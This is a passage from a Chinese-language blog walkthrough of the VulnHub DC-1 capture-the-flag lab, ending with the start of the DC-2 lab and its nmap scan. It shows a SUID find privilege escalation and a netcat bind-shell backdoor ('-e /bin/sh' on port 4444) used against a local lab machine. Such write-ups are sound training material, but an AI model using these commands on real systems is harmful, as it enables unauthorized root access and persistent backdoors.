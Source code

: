 反弹一个shell，当然find和执行命令，我们也可以返回一个root的netcat的后门

```
/usr/bin/find ./aaa -exec '/bin/sh'  \;
```

```
/usr/bin/find ./aaa -exec netcat -lvp 4444 -e "/bin/sh" \;
netcat 192.168.124.145 4444
```

![upload successful](https://lnng.top/images/pasted-127.png)

**upload successful**

  

![upload successful](https://lnng.top/images/pasted-135.png)

**upload successful**

  
最后,获得最后一个flag

```
cat thefinalflag.txt
```

Well done!!!!

Hopefully you’ve enjoyed this and learned some new skills.

You can let me know what you thought of this little journey  
by contacting me via Twitter - @DCAU7

### [](https://lnng.top/posts/2ea3.html#%E5%8F%82%E8%80%83%E6%96%87%E7%AB%A0 "参考文章")参考文章

freebuf:[https://www.freebuf.com/articles/network/218073.html](https://www.freebuf.com/articles/network/218073.html)  
知乎:[https://zhuanlan.zhihu.com/p/135342104](https://zhuanlan.zhihu.com/p/135342104)  
W3:[https://medium.com/@w3rallmachines/dc-1-vulnhub-walkthrough-3a2e7042c640](https://medium.com/@w3rallmachines/dc-1-vulnhub-walkthrough-3a2e7042c640)

## [](https://lnng.top/posts/2ea3.html#DC2 "DC2")DC2

### [](https://lnng.top/posts/2ea3.html#%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA "环境搭建")环境搭建

靶机下载地址:[http://www.five86.com/downloads/DC-2.zip](http://www.five86.com/downloads/DC-2.zip)

### [](https://lnng.top/posts/2ea3.html#%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86 "基本信息收集")基本信息收集

nmap基本扫描，发现ip地址192.168.124.146，开发端口80，使用的wordpress框架

```
nmap -A 192.168.124.0/24
```
